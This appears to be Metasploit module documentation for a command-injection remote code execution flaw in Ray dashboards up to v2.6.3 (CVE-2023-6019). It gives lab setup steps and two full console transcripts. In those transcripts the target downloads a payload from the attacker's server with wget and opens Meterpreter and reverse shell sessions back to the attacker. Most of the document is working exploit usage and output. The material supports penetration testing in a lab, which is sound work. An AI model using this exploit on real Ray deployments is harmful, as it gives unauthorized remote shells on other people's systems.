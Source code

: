 ## Vulnerable Application

Ray (<=v2.6.3) is vulnerable to RCE via cpu_profile command injection vulnerability (CVE-2023-6019)

The vulnerability affects:

    * Ray (<=v2.6.3)

This module was successfully tested on:

    * Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15

### Install and run the vulnerable Ray (v2.6.3)

1. Install your favorite virtualization engine (VirtualBox or VMware) on your preferred platform.
2. Install Kali Linux (or other Linux distro) in your virtualization engine.
3. Pull pre-built Ray docker container (v2.6.3) in your VM.
   `docker pull rayproject/ray:2.6.3`
4. Start the ray container.
   `docker run --shm-size=512M -it -p 8265:8265 rayproject/ray:2.6.3`
5. Start ray.
   `ray start --head --dashboard-host=0.0.0.0`

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/ray_cpu_profile_cmd_injection_cve_2023_6019`
4. Do: `set rhost <rhost>`
5. Do: `set lhost <attacker-ip>`
6. Do: `run`
7. You should get a shell or meterpreter

## Options
No options

## Scenarios

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (target 0)
```
msf > use exploit/linux/http/ray_cpu_profile_cmd_injection_cve_2023_6019
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf exploit(linux/http/ray_cpu_profile_cmd_injection_cve_2023_6019) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf exploit(linux/http/ray_cpu_profile_cmd_injection_cve_2023_6019) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf exploit(linux/http/ray_cpu_profile_cmd_injection_cve_2023_6019) > check
[*] 192.168.56.6:8265 - The service is running, but could not be validated.
msf exploit(linux/http/ray_cpu_profile_cmd_injection_cve_2023_6019) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[+] Grabbed node info, pid: 129, ip: 172.17.0.2
[*] Using URL: http://192.168.56.1:8080/2W4ZJ30NqjnfoGE
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /2W4ZJ30NqjnfoGE
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (3045380 bytes) to 192.168.56.6
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.6:59072) at 2024-08-10 10:29:05 +0900
[*] Command Stager progress - 100.00% done (120/120 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Ubuntu 20.04 (Linux 6.6.15-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (target 1)
```
msf > use exploit/linux/http/ray_cpu_profile_cmd_injection_cve_2023_6019
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(linux/http/ray_cpu_profile_cmd_injection_cve_2023_6019) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf exploit(linux/http/ray_cpu_profile_cmd_injection_cve_2023_6019) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf exploit(linux/http/ray_cpu_profile_cmd_injection_cve_2023_6019) > set target 1
target => 1
msf exploit(linux/http/ray_cpu_profile_cmd_injection_cve_2023_6019) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf exploit(linux/http/ray_cpu_profile_cmd_injection_cve_2023_6019) > check
[*] 192.168.56.6:8265 - The service is running, but could not be validated.
msf exploit(linux/http/ray_cpu_profile_cmd_injection_cve_2023_6019) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[+] Grabbed node info, pid: 129, ip: 172.17.0.2
[*] Using URL: http://192.168.56.1:8080/Mz2SC2mlSp
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /Mz2SC2mlSp
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (36 bytes) to 192.168.56.6
[*] Command shell session 2 opened (192.168.56.1:4444 -> 192.168.56.6:59210) at 2024-08-10 10:30:49 +0900
[*] Command Stager progress - 100.00% done (115/115 bytes)
[*] Server stopped.

whoami
ray
pwd
/home/ray
```
